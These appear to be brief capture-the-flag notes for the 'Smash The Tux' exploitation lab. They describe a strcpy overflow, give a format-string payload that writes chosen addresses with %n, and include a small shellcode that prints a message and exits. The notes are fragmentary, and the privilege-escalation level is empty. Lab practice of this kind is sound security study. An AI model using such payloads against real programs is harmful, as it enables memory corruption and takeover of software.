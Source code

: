 
# Smash The Tux

##0x00
- strcpy buffer overflow

simply pass in the large buffer and point to the address of the start of the buffer for your boomcode


##0x01
- format string, no validation

```bash
open('/tmp/foo.bin', 'wb').write("\xcc\xcc\xcc\xcc" + '\x54\x97\x04\x08' + '\x55\x97\x04\x08' + '\x56\x97\x04\x08' + '\x57\x97\x04\x08'+ 'A'*12 + '%5$n' + 'A'*0xD3 + '%6$n' + 'foobarbaZbar' + '%7$n' + 'A'*0xc0 + '%8$n' )
```

- some boom code
```bash
SHELLCODE += '\xeb\x13\x59\x31\xc0\xb0\x04\x31\xdb\x43\x31\xd2\xb2\x0f\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe8\xff\xff\xff\x62\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6d\x21\x0a\x0d'
```

0x01
- privilege escalation


